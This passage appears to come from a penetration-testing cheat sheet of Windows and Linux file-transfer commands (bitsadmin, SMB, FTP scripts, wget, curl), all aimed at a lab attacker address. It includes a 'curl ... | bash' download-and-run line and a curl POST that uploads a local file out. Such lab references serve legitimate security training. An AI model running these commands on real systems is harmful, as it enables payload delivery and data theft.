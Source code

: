 ### BITSAdmin
```cmd
# Download file
bitsadmin /transfer myDownloadJob /download /priority normal http://10.10.14.1:8000/file.exe C:\Temp\file.exe
```

### SMB
```cmd
# Copy from SMB share
copy \\10.10.14.1\share\file.exe C:\Temp\file.exe

# Using net use
net use Z: \\10.10.14.1\share
copy Z:\file.exe C:\Temp\file.exe
```

### FTP
```cmd
# Create FTP script
echo open 10.10.14.1 21 > ftp.txt
echo USER username >> ftp.txt
echo password >> ftp.txt
echo bin >> ftp.txt
echo GET file.exe >> ftp.txt
echo bye >> ftp.txt

# Execute FTP script
ftp -v -n -s:ftp.txt
```

---

## Linux File Transfer Methods

### Wget
```bash
# Basic download
wget http://10.10.14.1:8000/file.sh

# Download with different name
wget http://10.10.14.1:8000/file.sh -O /tmp/script.sh

# Download in background
wget -b http://10.10.14.1:8000/file.sh

# Download with authentication
wget --user=username --password=password http://10.10.14.1:8000/file.sh
```

### cURL
```bash
# Download file
curl http://10.10.14.1:8000/file.sh -o file.sh

# Download and pipe to bash
curl http://10.10.14.1:8000/script.sh | bash

# Download with authentication
curl -u username:password http://10.10.14.1:8000/file.sh -o file.sh

# Upload file via POST
curl -X POST http://10.10.14.1:8000/upload -F "file=@/tmp/file.txt"
```